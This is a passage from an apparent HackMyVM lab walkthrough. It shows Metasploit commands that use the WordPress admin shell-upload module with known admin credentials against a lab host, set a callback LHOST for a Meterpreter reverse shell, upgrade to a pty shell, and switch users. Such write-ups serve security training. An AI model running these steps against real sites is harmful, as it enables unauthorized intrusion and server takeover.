






4.2.1 Metasploit
1. Run “metasploit”.
2. Run the following commands in “metasploit”.
msf6 > search wordpress admin upload shell
Output:

msf6 > use 0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password admin1234
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin_02
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts itzhak.perlman.hmv
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 192.168.12.60
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

You got a “meterpreter”.
3. Run these commands on the meterpreter.
meterpreter > cd /tmp
meterpreter > shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

4. Change user.
www-data@perlman:/tmp$ su - rita
You'll be asked "rita’s" password.
